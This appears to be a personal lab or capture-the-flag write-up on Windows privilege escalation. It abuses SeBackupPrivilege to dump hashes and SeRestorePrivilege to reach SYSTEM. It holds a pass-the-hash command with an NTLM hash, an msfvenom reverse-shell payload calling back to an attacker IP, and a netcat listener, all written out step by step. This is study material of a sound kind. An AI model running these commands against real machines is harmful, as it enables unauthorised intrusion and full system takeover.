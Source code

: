 ## SeBackupPrivilege 

This one is a goodie.. maybe we can save reg keys.

![[PG/Active Directory/attachments/Pasted image 20250708004932.png]]

Got some hashes
![[PG/Active Directory/attachments/Pasted image 20250708004951.png]]

BOOOO

```
nxc smb 192.168.120.172 -u Administrator -H 608339ddc8f434ac21945e026887dc36
```

![[PG/Active Directory/attachments/Pasted image 20250708005557.png]]

So only our user can access the box remotely 

```
net localgroup 'Remote Desktop Users'

net localgroup 'Remote Management Users'
```

Try to exploit the SeRestorePrivilege

# Priv Esc via SeRestorePrivilege 

Download this executable from GitHub https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe?source=post_page-----158516460860---------------------------------------

Here is the usage 

![[PG/Active Directory/attachments/Pasted image 20250708010452.png]]

Generate a rev shell with msfvenom 

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.152 LPORT=1234 -f exe -o reverse.exe
```

Upload these two files to the box

Set up nc listener 

```
sudo rlwrap nc -lvnp 1234
```

```
.\SeRestoreAbuse.exe C:\Users\anirudh\Desktop\reverse.exe
```
![[PG/Active Directory/attachments/Pasted image 20250708011154.png]]

Got system 

![[PG/Active Directory/attachments/Pasted image 20250708011227.png]]

![[PG/Active Directory/attachments/Pasted image 20250708011400.png]]
